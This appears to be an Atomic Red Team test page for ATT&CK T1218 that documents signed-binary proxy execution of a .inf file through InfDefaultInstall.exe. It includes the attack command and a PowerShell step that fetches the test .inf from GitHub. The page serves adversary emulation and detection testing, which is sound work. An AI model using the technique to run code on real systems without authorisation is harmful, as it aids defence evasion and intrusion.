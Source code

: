<br/>
<br/>

## Atomic Test #8 - InfDefaultInstall.exe .inf Execution

Test execution of a .inf using InfDefaultInstall.exe

Reference: https://github.com/LOLBAS-Project/LOLBAS/blob/master/yml/OSBinaries/Infdefaultinstall.yml

**Supported Platforms:** Windows

#### Inputs:

| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| inf_to_execute | Local location of inf file | string | PathToAtomicsFolder&#92;T1218&#92;src&#92;Infdefaultinstall.inf|

#### Attack Commands: Run with `command_prompt`!

```cmd
InfDefaultInstall.exe #{inf_to_execute}
```

#### Dependencies:  Run with `powershell`!

##### Description: INF file must exist on disk at specified location (#{inf_to_execute})

##### Check Prereq Commands:

```powershell
if (Test-Path #{inf_to_execute}) {exit 0} else {exit 1} 
```

##### Get Prereq Commands:

```powershell
New-Item -Type Directory (split-path #{inf_to_execute}) -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1218/src/Infdefaultinstall.inf" -OutFile "#{inf_to_execute}"
```

<br/>
